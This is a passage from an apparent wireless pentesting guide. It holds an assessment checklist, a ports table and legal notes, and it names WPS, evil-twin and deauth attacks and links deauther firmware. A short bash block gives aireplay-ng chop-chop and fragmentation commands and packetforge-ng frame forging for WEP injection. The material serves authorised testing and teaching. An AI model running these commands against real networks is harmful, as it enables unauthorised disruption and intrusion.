- **WPS enabled and unlocked** then reaver or bully, often faster than cracking the passphrase.
- **Testing human and device trust** then the evil twin, to show what staff will connect to.
- **WPA3 or PMF enabled** then deauth and handshake capture are dead; pivot to the password strength story, WPS, and client-side trust.

## Where IoT fits in
<a id="where-iot-fits-in"></a>

You do not always need a laptop. A NodeMCU the size of a thumb, running on a power bank, can run deauth and beacon attacks on 2.4GHz on its own. I built one to understand that threat from the inside, and it pairs directly with the detection half of this guide.

Full write-up and firmware: [ESP8266 Deauther](https://gitlab.com/deathesther/esp8266-deauther).

## Wireless pentest checklist
<a id="checklist"></a>

A field checklist for an authorised wireless assessment. Work top to bottom; everything below is in-scope-only and should be logged with timestamps so the blue team can correlate.

### Scope and recon
- [ ] Inventory APs, clients, IoT, printers, switches. Record MAC, vendor OUI, hostname, and role.
- [ ] Discover connected devices and note association timestamps.
- [ ] Identify SSIDs (visible and hidden) and record each one's purpose (corporate, guest, IoT, captive portal).
- [ ] Confirm whether the same AP serves 2.4GHz and 5GHz; document band assignment and band-steering.
- [ ] Site survey: AP locations, antenna types, coverage overlap, dead zones, and signal bleed beyond the building.
- [ ] Look for external USB/PCIe adapters that support monitor mode, and any unfamiliar wireless hardware on endpoints.
- [ ] Verify encryption: WPA3 preferred; for WPA2 ensure AES/CCMP, TKIP disabled, 802.11w (PMF) active, transition modes sane.

### Authentication and configuration
- [ ] Router admin restricted to authorised admins; management over HTTPS only, HTTP disabled.
- [ ] No default passwords; strong complexity enforced; firmware current with vendor hardening applied.
- [ ] WPS disabled organisation-wide.
- [ ] Guest / employee / captive-portal networks isolated on separate VLANs, no crossover.
- [ ] Enterprise 802.1X (PEAP, EAP-TLS, TTLS, FAST) used for corporate where applicable.
- [ ] RADIUS reviewed: server-cert validity, CA chain, cert pinning. PSK vs 802.1X usage justified and correct EAP types enforced.
- [ ] Client supplicant behaviour checked: do clients accept insecure EAP types or skip certificate validation?
- [ ] Rogue connectors hunted (personal APs, phone hotspots, tethering bridging to corporate VLANs); findings logged.
- [ ] Management and production planes separated; SNMP/SSH/Telnet hardened (SNMPv3 only or removed).
- [ ] PMF / 802.11w enforced where supported; clients that cannot do it documented.
- [ ] WEP frames tested for and documented (WEP is deprecated, flag for replacement).

**Recommended key rotation:**

| Key type | NIST basis | Rotation |
| --- | --- | --- |
| PTK / GTK (session keys) | Ephemeral, automatic | Per client session / GTK lifetime |
| Master symmetric key / PSK | SP 800-57 cryptoperiod | <= 1 year; immediately if compromise suspected |
| RADIUS server keys / certs | Protect master key, rotate per PKI | ~1 year |
| Client certificates (EAP-TLS) | Per org policy | 1-3 years |

### Authorised WLAN attack and detection tests
- [ ] **Deauth** test, then confirm the WLC/controller, wireless IDS/IPS, and SIEM recorded it (collect pcaps + logs, correlate timestamps).
- [ ] **MITM** detection and evidence capture.
- [ ] **Stress / DoS** (radio or traffic based) in a maintenance window only; document impact and recovery.
- [ ] **MAC flooding** in a controlled environment to gauge AP/switch stability.
- [ ] **Fake-auth / association** attempts, verify they are logged and alerted.
- [ ] Scan for **rogue APs / misconfigured bridges**; document detection and response (avoid active rogue injection unless in scope).
- [ ] Verify logging retention and SIEM correlation for wireless anomalies (auth failures, BSSID floods, odd association patterns).
- [ ] Check backend weaknesses: DNS spoofing, unauthorised DHCP, weak DHCP config.
- [ ] **MAC-spoof detection** test (change host MAC to a known one, verify alerts).
- [ ] Capture **EAPOL / 4-way handshakes** for in-scope nets; offline strength analysis only if permitted.
- [ ] Identify legacy/weak auth (e.g. LEAP) from pcap; record the EAP method in use.
- [ ] Physical security: closets, patch panels, reachable external antennas.
- [ ] **PMKID** extraction test as an alternative to full handshake capture.
- [ ] **Spectrum scan** for non-WiFi interference and hidden jammers.

### Legacy WEP injection tests (authorised, lab or in-scope only)

These derive keystream (PRGA) material from captured frames and prove whether injection is possible. WEP only.

```bash
# Chop-chop: recover a keystream from a single captured packet
aireplay-ng -4 -b <AP-MAC> -h <source-MAC> <interface>

# Fragmentation: build a PRGA/XOR keystream for injection
aireplay-ng -5 -b <AP-MAC> -h <source-MAC> <interface>

# Forge an encrypted frame from the recovered PRGA, then inject
packetforge-ng -0 -a <AP-MAC> -h <your-MAC> -k <dest-IP> -l <source-IP> -y <xor-file> -w <out-file>
#   -0 ARP request   -a AP MAC   -h your MAC   -k dest IP ("who has")
#   -l source IP ("tell")   -y PRGA file   -w output file
```

Document capture evidence, whether monitoring alerted, and any successful injection. Mitigations to confirm alongside: network segmentation + NAC to limit client-to-client traffic, wireless IDS/IPS signatures for rogue APs and ARP/DHCP anomalies, and switch-side DHCP snooping / Dynamic ARP Inspection / IP Source Guard.

## Common ports reference
<a id="ports"></a>

A quick service-by-port lookup for the wired side you reach once you are on the network (pivoting, and triaging what a captured client talks to).

| Port | Service | Notes |
| --- | --- | --- |
| 20 / 21 | FTP | Data / control (cleartext) |
| 22 | SSH / SCP | Secure shell and copy |
| 23 | Telnet | Cleartext remote login (flag it) |
| 25 | SMTP | Mail transfer |
| 53 | DNS | Name resolution |
| 69 | TFTP | Trivial FTP (often config files) |
| 80 | HTTP | Cleartext web |
| 88 | Kerberos | Network authentication |
| 110 | POP3 | Mail retrieval |
| 135 | MS EPMAP | DCE/RPC endpoint mapper |
| 137 / 139 | NetBIOS | Name / session service |
| 143 | IMAP4 | Mail access |
| 443 | HTTPS | TLS web |
| 445 | SMB | Windows file sharing |
| 464 | Kerberos | Password change/set |
| 636 | LDAPS | LDAP over TLS |
| 989 / 990 | FTPS | FTP over TLS (data / control) |
| 993 | IMAPS | IMAP over TLS |
| 995 | POP3S | POP3 over TLS |
| 1194 | OpenVPN | VPN |
| 1433 | MSSQL | Microsoft SQL Server |
| 1521 | Oracle | Oracle DB listener |
| 2082 / 2083 | cPanel | Admin (plain / SSL) |
| 2083 | radsec | Secure RADIUS |
| 3306 | MySQL | MySQL/MariaDB |
| 3389 | RDP | Remote Desktop |
| 5432 | PostgreSQL | PostgreSQL DB |
| 5900 | VNC | Remote framebuffer |
| 8080 | HTTP-alt | Proxies / web admin |
| 9100 | PDL / JetDirect | Network printing |
| 10000 | Webmin | Unix/Linux web admin |

Ports in the 12345 / 27374 / 31337 range are classic trojan/backdoor defaults (NetBus, Sub7, Back Orifice); seeing them on a client is a finding, not a normal service.

## Legal and ethics
<a id="legal-and-ethics"></a>

Only test networks you own or have **explicit written permission** to test. Everything in this repo is for authorised assessments and for learning in a lab you control. Unauthorised access, capture, or disruption is a crime. A signed scope document is the line between a penetration test and an offence.

**India.** Jamming or blocking radio signals is illegal without a licence under the Indian Wireless Telegraphy Act, 1933 and the Indian Telegraph Act, 1885; operating signal jammers is prohibited for private individuals. Unauthorised access to a computer resource, and capturing data from one, fall under the Information Technology Act, 2000, notably Section 43 (penalty for unauthorised access and damage) and Section 66 (computer-related offences, which can carry imprisonment). Deauthing or cracking a WiFi network you do not own can trigger both.

**International.** There is no single global cyber law; each country enforces its own. Most criminalise unauthorised access (for example the Computer Fraud and Abuse Act in the US, the Computer Misuse Act in the UK). The main cross-border instrument is the **Budapest Convention on Cybercrime**, which many countries have signed to cooperate on these offences. (The International Court of Justice settles disputes between states, not individual hacking cases, so it is not the venue for this.) Wherever you are, the rule is the same: get permission in writing, stay in scope, and do not touch anyone else's network.

---

*Written as educational and defensive security material. Use it to understand wireless attacks and to defend against them.*
